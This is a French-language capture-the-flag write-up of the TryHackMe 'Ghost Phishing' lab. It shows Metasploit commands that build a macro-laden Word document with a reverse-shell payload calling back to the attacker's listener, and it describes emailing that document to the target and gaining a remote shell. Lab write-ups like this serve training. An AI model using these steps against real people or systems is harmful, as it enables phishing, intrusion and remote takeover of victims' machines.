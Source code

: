 ```yaml
---
title: TryHackMe - Ghost Phishing
date: 2025-03-24 17:46:19 -0400
description: Dans le cadre du HackfinityBattle, un événement organisé par TryHackMe, ce challenge de cybersécurité m’a demandé de simuler une attaque Red Team en exploitant une vulnérabilité liée à l’ouverture d’un document Microsoft Word. L’objectif était de créer un document Word malveillant contenant une macro, capable d’exécuter une charge utile (payload) à l’ouverture, et de l’envoyer à la cible, cipher@darknetmail.corp, en s’assurant qu’elle l’ouvre pour établir une connexion à distance. Ce défi, proposé par TryHackMe, visait à tester mes compétences en Red Team, notamment en génération de payloads avec Metasploit, en création de documents malveillants via des macros, en ingénierie sociale pour inciter la cible à ouvrir le fichier, et en gestion de sessions à distance dans un environnement contrôlé.
categories: [TryHackMe]
tags: [THM, CTFs, Hacking, macro, word, msfconsole]
image:
    path: https://i.ibb.co/fY9ysQ9r/gh.png
---
```



- **[The Best Academy to Learn Hacking](https://referral.hackthebox.com/mz6xj5g)**.
- **[Beginner Friendly challenges on TryHackMe](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.


<h2 style="color: orange;">Description</h2>
Nous avons réussi à accéder à l'e-mail de **DarkSpecter**, et cette fuite contient un lien direct avec les dernières opérations de **Cipher**. Les échanges chiffrés contiennent des renseignements précieux : des informations sur les attaques récentes, les systèmes compromis et les cibles potentielles. Cela pourrait être notre meilleure chance de prévoir les prochaines actions de Cipher et de démanteler définitivement son réseau.

<h2 style="color: orange;">Resolution</h2>
D'abord, je me suis connecté à l'adresse email fournie dans le cadre du challenge pour analyser les communications et mieux comprendre les attentes. 

![Email](https://i.ibb.co/wFvmjr51/r.png)

Ici, comme on le constate, pour faire un briefing, `cipher@darknetmail.corp` demande à `specter@darknetmail.corp` de lui fournir un rapport détaillé sur une opération récente. Le message, envoyé le **1er mars 2025**, mentionne des préoccupations suite à une attaque et insiste sur l’urgence de recevoir un rapport complet, incluant les méthodologies, les outils utilisés et les anomalies rencontrées. L’email précise également que le rapport doit être envoyé directement via ce canal.

En analysant ce message, j’ai compris que l’objectif était de créer un **document Word** avec une **macro** malveillante pour répondre à cette demande, en y intégrant une charge utile (payload) qui s’exécuterait à l’ouverture du fichier par la cible, `cipher@darknetmail`.corp. Pour ce faire, j’ai décidé de générer un payload en utilisant `msfconsole`, l’interface de Metasploit, afin de concevoir une attaque efficace.



Avant de commencer, j’ai vérifié la disponibilité d’un module adapté pour une attaque par **macro** sur ma version de `Kali Linux`. J’ai utilisé `searchsploit` pour rechercher des exploits liés aux macros :



```console
$ searchsploit macro
```

![Result](https://i.ibb.co/bggq4rm6/r-1.png)

Le résultat m’a montré plusieurs options, et j’ai décidé de sélectionner le premier exploit disponible : `LibreOffice < 6.0.7 / 6.1.3 - Macro Code Execution`. Cependant, pour ce challenge, j’ai utilisé un module `Metasploit` spécifique pour **Microsoft Word**. J’ai donc lancé `msfconsole` et configuré l’exploit comme suit :

```console
$ msf6 > use exploit/multi/fileformat/office_word_macro
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
$ msf6 exploit(multi/fileformat/office_word_macro) > set payload windows/shell_reverse_tcp 
payload => windows/shell_reverse_tcp
$ msf6 exploit(multi/fileformat/office_word_macro) > set lhost tun0 
lhost => 10.6.8.193
$ msf6 exploit(multi/fileformat/office_word_macro) > set lport 1337
lport => 1337
$ msf6 exploit(multi/fileformat/office_word_macro) > set filename hacked.docm
filename => hacked.docm
$ msf6 exploit(multi/fileformat/office_word_macro) > run
[*] Using template: /usr/share/metasploit-framework/data/exploits/office_word_macro/template.docx
[*] Injecting payload in document comments
[*] Injecting macro and other required files in document
[*] Finalizing docm: hacked.docm
[+] hacked.docm stored at /home/bloman/.msf4/local/hacked.docm
```

Le module a généré avec succès un **document Word** malveillant nommé `hacked.docm`, contenant une **macro** qui exécutera le payload à l’ouverture. Ensuite, j’ai mis en place un listener avec `netcat` pour recevoir la connexion une fois que la cible ouvrirait le document

J’ai ensuite envoyé le document `hacked.docm` à `cipher@darknetmail.corp` via l’interface email.

![check](https://i.ibb.co/vxwNw5H6/hacked.png)

Quelques minutes plus tard, la cible a ouvert le document, ce qui a déclenché l’exécution de la **macro**. Cela m’a permis d’établir une connexion à distance et de prendre le contrôle de la machine de la cible :

![Hacked](https://i.ibb.co/ZRsnB6bM/r-hacked.png)






<h2 style="color: orange;">Ressources supplementaires</h2>
Voici quelques ressources supplémentaires qui pourraient vous être utiles :
- [Rapid7 Macro](https://www.rapid7.com/db/modules/exploit/multi/fileformat/office_word_macro/)
- [Medium](https://medium.com/@calvintconnor/how-to-make-a-reverse-shell-with-microsoft-word-macros-94797534ffb3)
- **Love my artciles?** Follow me on [Twitter](https://x.com/@bloman19) and [Github](https://github.com/0xabdoulaye)
- [Join Us on Discord](https://discord.gg/wBT9wr9ruG).
